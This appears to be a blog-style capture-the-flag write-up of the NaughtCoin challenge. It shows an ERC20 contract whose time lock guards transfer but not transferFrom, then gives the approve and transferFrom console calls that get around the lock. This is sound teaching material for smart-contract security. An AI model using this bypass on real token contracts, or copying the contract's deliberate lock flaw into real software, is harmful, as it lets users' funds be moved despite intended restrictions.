 # Understanding Blockchain Security: Inheriting Contracts and Ensuring Complete Security

In the realm of blockchain security, it's crucial to grasp how inheriting contracts impacts security measures. Let's delve into a scenario where we inherit contracts and explore additional measures to ensure complete security.

### The Challenge: Bypassing Time Lock Criteria in Token Transfer

Consider a scenario where a contract, named `NaughtCoin`, inherits from the ERC20 token standard. The primary feature of interest here is a time lock mechanism that prevents depositors from withdrawing their tokens before a specified time period elapses. The challenge is to bypass this time lock criteria and transfer tokens without adhering to the predetermined waiting period.

    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';
    
    contract NaughtCoin is ERC20 {
      
      uint public timeLock = block.timestamp + 10 * 365 days;
      uint256 public INITIAL_SUPPLY;
      address public player;
    
      constructor(address _player) ERC20('NaughtCoin', '0x0') {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
      }
      
      function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
        super.transfer(_to, _value);
      }
    
      // Prevent the initial owner from transferring tokens until the timelock has passed
      modifier lockTokens() {
        if (msg.sender == player) {
          require(block.timestamp > timeLock);
          _;
        } else {
         _;
        }
      } 
    }
    
### Exploiting ERC20 Token Standard for Transfer
The ERC20 token standard allows for token transfers on behalf of others after receiving approval. Leveraging this feature, we can execute a workaround to bypass the time lock criteria. By approving ourselves to transfer tokens and utilizing the transferFrom function, we can execute token transfers without restriction.

Here's how to execute the exploit:

1. Approve yourself to transfer tokens:

    ```javascript
    await contract.approve(player, "1000000000000000000000000");

3. Execute the transfer using transferFrom:

    ```javascript
    contract.transferFrom(player, player, "1000000000000000000000000");
    
Upon successful execution, the balance of the player will reflect the transferred amount, effectively bypassing the time lock criteria.

    ```javascript
    (await contract.balanceOf(player)).toString()
    
### Conclusion
Understanding the intricacies of inheriting contracts and exploiting token standards like ERC20 is paramount in ensuring blockchain security. By recognizing vulnerabilities and implementing appropriate measures, developers can fortify their contracts against potential exploits, safeguarding user assets and maintaining trust within the ecosystem.
